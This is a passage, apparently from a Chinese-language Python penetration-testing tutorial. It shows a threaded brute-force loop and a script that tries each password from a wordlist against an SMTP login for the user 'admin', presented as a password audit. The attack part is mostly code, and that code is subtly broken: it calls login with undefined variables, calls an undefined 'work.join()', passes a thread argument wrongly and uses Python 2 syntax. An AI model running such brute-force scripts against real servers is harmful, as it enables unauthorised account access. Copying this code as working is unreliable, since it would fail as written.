 ```py

```

在这里，我们使用线程来使模糊测试并行运行，以提高速度：

```py
for i in bruteforce_list(letters_list, PASS_SIZE): 
    t = threading.Thread(target=attempt, args=(i)) 
    t.start() 
    time.sleep(0.3) 

sys.exit(0) 

```

# SMTP 暴力破解

**简单邮件传输协议**（**SMTP**）是网络上的电子邮件传输标准。电子邮件服务器和其他邮件传输代理使用 SMTP 来发送和接收电子邮件。电子邮件客户端应用程序通常仅使用 SMTP 发送电子邮件。要对 SMTP 进行暴力破解密码审计，我们可以使用`smptlib`模块，它可以帮助我们连接到 SMTP。

像往常一样，导入所需的模块：

```py
import sys, smtplib, socket 
from smtplib import SMTP 

```

设置`IP`和`USER`。您也可以将这些值作为输入参数获取：

```py
IP = "127.0.0.1" 
USER = "admin"  

```

检查 SMTP 中的每个密码列表中的密码：

```py
attackNumber = 1 
with open('passwordlist.txt') as f: 
    for PASSWORD in f: 
         try: 
               print "-"*12 
               print "User:",USER,"Password:",PASSWORD 
               smtp = smtplib.SMTP(IP) 
               smtp.login(user, value) 
               print "\t\nLogin successful:",user, value 
               smtp.quit() 
               work.join() 
               sys.exit(2) 
         except(socket.gaierror, socket.error, socket.herror,
         smtplib.SMTPException), msg:  
               print "An error occurred:", msg 

```
